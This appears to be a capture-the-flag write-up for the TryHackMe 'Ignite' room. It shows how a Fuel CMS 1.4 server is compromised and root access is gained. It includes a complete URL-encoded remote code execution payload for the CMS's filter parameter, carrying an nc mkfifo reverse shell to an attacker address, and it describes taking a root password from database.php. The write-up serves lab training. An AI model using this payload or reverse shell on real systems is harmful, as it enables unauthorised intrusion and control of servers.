 
<h1 align="center"><a href="https://tryhackme.com/room/ignite" download>Ignite CTF</a></h1> 

## User.txt

Boot up the machine and start nmap scanning

```
nmap -Sc -Sv -v 10.10.205.153
```
Wee can see an open 80 port HTTP server with Fuel CMS

![port.png](./images/port.png)

![fuelcms.png](./images/fuelcms.png)

Lets check the **robots.txt**. There we found interesting path

```
Disallow: /fuel/
```
We are greeted by a login form

![login.png](./images/login.png)

Lets look for available exploits for Fuel CMS 1.4

Fine, i think first version is suitable

![searchsploit.png](./images/searchsploit.png)

Ok, let's visit https://www.revshells.com/ and Put IP and PORT For reverse shell and select "nc mkfifo" and copy code to https://gchq.github.io/CyberChef/ and select encode all special characters.

![encodeshell.png](./images/encodeshell.png)

Replace the **urllib.quote(xxxx)** to our encode shell like:

from this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27"+urllib.quote(xxxx)+"%27%29%2b%27"
```

to this

```
10.10.205.153/fuel/pages/select/?filter=%27%2b%70%69%28%70%72%69%6e%74%28%24%61%3d%27%73%79%73%74%65%6d%27%29%29%2b%24%61%28%27rm%20%2Ftmp%2Ff%3Bmkfifo%20%2Ftmp%2Ff%3Bcat%20%2Ftmp%2Ff%7Csh%20%2Di%202%3E%261%7Cnc%2010%2E8%2E157%2E18%209001%20%3E%2Ftmp%2Ff%27%29%2b%27
```

start ncat and.. we are in

![wein.png](./images/wein.png)

Fine, lets stabilize reverse shell

![stable.png](./images/stable.png)

I checked the directories for a long time and found **database.php**, there is a password of root, let's try it

Bim Bum

![rootpass.png](./images/rootpass.png)

And here are our flags))

![flags.png](./images/flags.png)








